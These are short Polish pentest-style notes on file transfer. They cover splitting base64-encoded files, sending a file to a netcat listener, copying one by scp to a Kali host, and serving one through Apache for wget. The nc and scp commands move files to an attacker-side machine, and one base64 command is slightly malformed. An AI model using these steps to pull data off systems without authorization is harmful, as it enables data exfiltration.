 # Content
1. [Podzial na fragmenty](#Podzial-na-fragmenty)
2. [Przeslanie nc](#Przeslanie-nc)
3. [Przeslanie przez ssh scp](#Przeslanie-przez-ssh-scp)
4. [Apache](#Apache)


# Podzial na fragmenty
### Mozna przed podzieleniem zakodowac do base64
```console
base64 -w file.ext > file_to_split
```
### Dobry sposob
Podzielenie na ilosc partii
```console
split -n 20 file_to_split
```
Zlaczenie podzielonych kawalkow
```console
cat x* > scale_file
```
### Pierwotna wersja
![](PodzielenieNaMniejszeFragmenty.png)



# Przeslanie nc
### Nasluch
```console
nc -nlvp 9999 > dane
```
### Wyslanie
```console
nc -n <ip> 9999 < file
```


# Przeslanie przez ssh scp
```console
scp file.ext kali@192.168.45.193:/tmp
```

# Apache
Kopiujemy plik do /var/www/html
```console
systemctl start apache2
```
Pobieramy plik na innej maszynie
```console
wget http://naszeIP/zasob
```
